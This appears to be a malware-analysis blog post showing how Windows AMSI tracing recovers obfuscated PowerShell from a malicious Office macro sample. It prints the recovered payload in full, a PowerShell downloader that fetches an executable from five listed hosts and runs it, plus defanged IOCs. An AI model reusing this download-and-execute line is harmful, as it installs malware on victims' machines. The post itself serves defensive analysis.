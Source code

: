 ```yaml
---
layout: post
title: The Power of AMSI Tracing
categories: [Malware, Logging, AMSI]
excerpt: A walk through of how to leverage the Windows OS AMSI Tracing feature to quickly and easily retrieve heavily obfuscated code from maldocs to find IOC's. 
---
```


(Estimated Reading Time: 5 minutes)

- [Inspiration](#inspiration)
- [A Couple Samples](#a-couple-samples)
- [References](#references)

## Inspiration

While reviewing my tweeter feed this morning, the following gist post from Matt Graeber caught my attention. He tweeted about using the Windows Event Logging system, specifically the AMSI logs, to capture the runtime context of VBA, Excel4, JScript, VBScript, PowerShell, WMI, and .NET (4.8+) in-mem assembly loads.

Typically, maldocs will include heavily obfuscated and encoded macro's making it difficult to reverse engineer back to something that is readable and understandable. Tools like [oledump.py](https://blog.didierstevens.com/programs/oledump-py/) from Didier Stevens can help extract those macros into a flat file for static reversing but can take work. I've take an example maldoc below and shown how easily the malicious command line can be obtained using the technique Matt Graeber posted about. 

## A Sample

Using a sample from this blog: [Reverse Engineering an Obfuscated Malicious Macro](https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439) I'll demonstrate how easy it is to retrieve the powershell commands. 

The sample with SHA256 hash: [9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22](https://labs.inquest.net/dfi/sha256/9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22) can be found for easy download on labs.inquest.net.

As you can see below the following macro looks like it would take some work to reverse. The author of the prior mentioned blog shows a step by static approach to walking this mess

![macro1](/images/macrosample1.jpg)

back to something readable.

![macro2](/images/macrosample2.jpg)

Now we will use the AMSI Tracing feature of Windows and CyberChef to arrive at the same outcome with much less effort.

Step 1. Start Tracing

```
logman start trace AMSITrace -p Microsoft-Antimalware-Scan-Interface -o amsi.etl -ets
```

Step 2. Run the sample. Using the sample I downloaded above, I opened the sample (in a virtual machine of course), and enabled macros (ie the office yellow ribbon). Also make sure Windows Defender is disabled or else it will prevent the macro from running before AMSI Trace will see the command. After running the macro, stop the trace

```
logman stop AMSITrace -ets
```

Step 3. View the collected trace data with the following command. 

```
Get-WinEvent -Path .\amsi.etl -Oldest | ? { $_.Id -eq 1101 } | % { [Text.Encoding]::Unicode.GetString($_.Properties[-3].Value) }
```

Using the sample above I could clearly see the following command in the collected AMSI trace data from the image below.

```
a$Ywi=new-object Net.WebClient;$jKB='http://jany.be/UsCX@http://jfogal.com/C@http://inspekservices.co.uk/g@http://ilgiardinodellevisciole.it/ny@http://www.diman.landesigne.ru/Q'.Split('@');$LtU = '394';$jri=$env:public+'\'+$LtU+'.exe';foreach($JBf in $jKB){try{$Ywi.DownloadFile($JBf, $jri);Invoke-Item $jri;break;}catch{}}
```

![ps2](/images/ps_amsi2.PNG)

I then took the above command and pasted it into [CyberChef](https://gchq.github.io/CyberChef/#recipe=Extract_URLs(false)Find_/_Replace(%7B'option':'Simple%20string','string':'@'%7D,'%5C%5Cn',true,false,true,false)Defang_URL(true,true,true,'Valid%20domains%20and%20full%20URLs')&input=YSRZd2k9bmV3LW9iamVjdCBOZXQuV2ViQ2xpZW50OyRqS0I9J2h0dHA6Ly9qYW55LmJlL1VzQ1hAaHR0cDovL2pmb2dhbC5jb20vQ0BodHRwOi8vaW5zcGVrc2VydmljZXMuY28udWsvZ0BodHRwOi8vaWxnaWFyZGlub2RlbGxldmlzY2lvbGUuaXQvbnlAaHR0cDovL3d3dy5kaW1hbi5sYW5kZXNpZ25lLnJ1L1EnLlNwbGl0KCdAJyk7JEx0VSA9ICczOTQnOyRqcmk9JGVudjpwdWJsaWMrJ1wnKyRMdFUrJy5leGUnO2ZvcmVhY2goJEpCZiBpbiAkaktCKXt0cnl7JFl3aS5Eb3dubG9hZEZpbGUoJEpCZiwgJGpyaSk7SW52b2tlLUl0ZW0gJGpyaTticmVhazt9Y2F0Y2h7fX0) to pull out the URL's quick and defang them. In the end I got the same result as static analysis only much easier.

```
hxxp[://]jany[.]be/UsCX
hxxp[://]jfogal[.]com/C
hxxp[://]inspekservices[.]co[.]uk/g
hxxp[://]ilgiardinodellevisciole[.]it/ny
hxxp[://]www[.]diman[.]landesigne[.]ru/Q
```

I will certainly be using AMSI Tracing more in future projects. Thanks [Matt Graeber](https://twitter.com/mattifestation) for sharing this dynamic analysis technique.

## References

* Link to [GIST Post by Matt Graeber](https://gist.github.com/mgraeber-rc/51651b859ee543260e0f4d3a281b8bf5)
* Link to [Reverse Engineering an Obfuscated Malicious Macro](https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439)